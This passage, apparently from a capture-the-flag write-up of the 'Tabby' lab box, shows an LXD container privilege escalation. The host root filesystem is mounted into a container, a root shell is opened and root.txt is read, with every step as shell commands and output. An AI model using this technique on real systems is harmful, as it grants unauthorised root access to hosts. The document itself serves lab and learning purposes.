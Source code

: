 Next, we'll mount the root file system to our container:

```shell
ash@tabby:~$ lxc config device add fusion-root cold-device disk source=/ path=/mnt/root recursive=true
Device cold-device added to fusion-root
```
#### Starting the container

```shell
ash@tabby:~$ lxc start fusion-root
ash@tabby:~$ lxc list
+-------------+---------+---------------------+-----------------------------------------------+-----------+-----------+
|    NAME     |  STATE  |        IPV4         |                     IPV6                      |   TYPE    | SNAPSHOTS |
+-------------+---------+---------------------+-----------------------------------------------+-----------+-----------+
| fusion-root | RUNNING | 10.246.48.11 (eth0) | fd42:e693:434f:7134:216:3eff:fef3:f762 (eth0) | CONTAINER | 0         |
+-------------+---------+---------------------+-----------------------------------------------+-----------+-----------+
```
### Root Shell

Using `lxc exec` we can access root file system inside the container

```shell
ash@tabby:~$ lxc exec fusion-root /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # whoami
root
```

#### Accessing mounted root

```shell
~ # cd /mnt/root/
/mnt/root # ls
bin         cdrom       etc         lib         lib64       lost+found  mnt         proc        run         snap        swap.img    tmp         var
boot        dev         home        lib32       libx32      media       opt         root        sbin        srv         sys         usr
```
#### Grabbing root.txt

```shell
/mnt/root # cat root/root.txt
515f9b6d82c645f*****************

```

And we pwned the Box !

Thanks for reading, Suggestions & Feedback are appreciated !

